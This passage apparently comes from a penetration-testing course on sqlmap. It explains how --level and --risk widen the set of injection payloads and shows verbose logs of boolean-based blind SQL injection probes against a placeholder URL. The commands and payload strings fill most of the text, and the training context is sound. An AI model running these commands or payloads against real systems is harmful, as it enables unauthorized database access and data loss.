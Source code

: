 - The optionÂ `--risk`Â (`1-3`, defaultÂ `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
    

The best way to check for differences between used boundaries and payloads for different values ofÂ `--level`Â andÂ `--risk`, is the usage ofÂ `-v`Â option to set the verbosity level. In verbosity 3 or higher (e.g.Â `-v 3`), messages containing the usedÂ `[PAYLOAD]`Â will be displayed, as follows:


```shell-session
smoothment@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

On the other hand, payloads used with the defaultÂ `--level`Â value have a considerably smaller set of boundaries:

```shell-session
smoothment@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

As for vectors, we can compare used payloads as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...
```
